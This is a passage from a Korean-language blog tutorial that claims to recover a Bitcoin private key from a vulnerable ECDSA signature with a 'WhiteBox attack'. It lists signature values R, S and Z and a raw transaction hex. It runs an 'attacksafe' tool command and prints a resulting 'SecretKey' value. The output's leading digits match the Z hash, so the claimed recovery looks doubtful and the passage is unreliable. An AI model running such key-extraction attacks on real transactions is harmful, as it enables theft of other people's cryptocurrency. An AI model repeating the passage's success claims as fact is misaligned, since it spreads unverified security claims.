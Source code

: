<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-44-1024x216.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1643"/></figure>



<pre class="wp-block-code"><code>R = 0x48771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba5
S = 0x2756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be7
Z = 0xa402dc224f712e09602b06c595f272f3e09408f052d8fba3d88609bbbb150139</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-47-1024x262.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1649"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool whitebox_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-46-1024x374.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1647"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa402dc224f712e09602b06c595f272f3028a6a6f6ef174708aac8121c40e8545
